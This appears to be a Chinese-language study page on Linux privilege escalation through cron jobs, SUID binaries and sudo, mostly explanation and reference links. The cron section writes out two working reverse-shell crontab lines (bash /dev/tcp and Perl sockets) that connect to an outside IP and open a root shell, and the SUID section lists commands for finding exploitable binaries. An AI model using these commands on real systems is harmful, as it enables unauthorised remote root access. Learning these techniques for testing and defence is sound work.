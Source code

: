 ### 二、计划任务提权
- https://www.secice.cn/post/75fd4604
- 利用原理：
  - 当 /bin/sh指向/bin/dash的时候(ubuntu默认这样，当前的靶机也是这样)，反弹shell用bash的话得这样弹： * * * * * root bash -c "bash -i  >&/dev/tcp/106.13.124.93/2333 0>&1"
    这样弹shell的时候不知道为什么很慢，耐心等等
  - */1 * * * * root perl -e 'use Socket;$i="106.13.124.93";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### 三、利用SUID提权

- SUID概念：SUID（设置用户ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。SUID可以让调用者以文件拥有者的身份运行该文件，所以我们利用SUID提权的思路就是运行root用户所拥有的SUID的文件，那么我们运行该文件的时候就得获得root用户的身份了。那么，为什么要给Linux二进制文件设置这种权限呢？其实原因有很多，例如，程序ping需要root权限才能打开网络套接字，但执行该程序的用户通常都是由普通用户，来验证与其他主机的连通性。
- SUID提权：什么是suid提权呢？一个文件，它有s标志，并且他输入root，那么我们运行这个程序就可以有了root的权限，并且这个程序还得能执行命令，那么我们就能从普通用户提升到了root权限了。
- 在本地查找符合条件的文件。
  - find / -user root -perm -4000 -print 2>/dev/null
  - find / -perm -u=s -type f 2>/dev/null
  - find / -user root -perm -4000 -exec ls -ldb {} \;
- 常见的可以提权的程序
  - nmap vim find Bash More Less Nano cp netcat

- 相关工具：
  - https://github.com/Jewel591/suidcheck

- 参考链接：
  - https://www.secice.cn/post/a20c8cf4
  - http://zone.secevery.com/article/1104
  - https://www.anquanke.com/post/id/86979
  - https://www.cnblogs.com/Qiuzhiyu/p/12528319.html
  - http://www.oniont.cn/index.php/archives/142.html
  - https://blog.csdn.net/fly_hps/article/details/80428173
  - https://blog.csdn.net/qq_36119192/article/details/84872644
  - https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html

### 四、利用SUDO提权

Linux系统中可以使用sudo执行一个只有root才能执行的命令，配置文件保存在/etc/sudoers，sudo -l可以列出当前用户支持sudo的命令。

尽量从代码层面进行对漏洞的分析。

- 参考链接
  - https://zhuanlan.zhihu.com/p/130228710
  - https://blog.csdn.net/qq_44854093/article/details/93537827
  - https://www.cnblogs.com/ethtool/p/12176730.html
  - https://www.cnblogs.com/chenlifan/p/13362218.html
  - https://www.cnblogs.com/liuzhiyun/p/11937764.html
  - https://www.secice.cn/post/94404766

### 五、环境变量提权
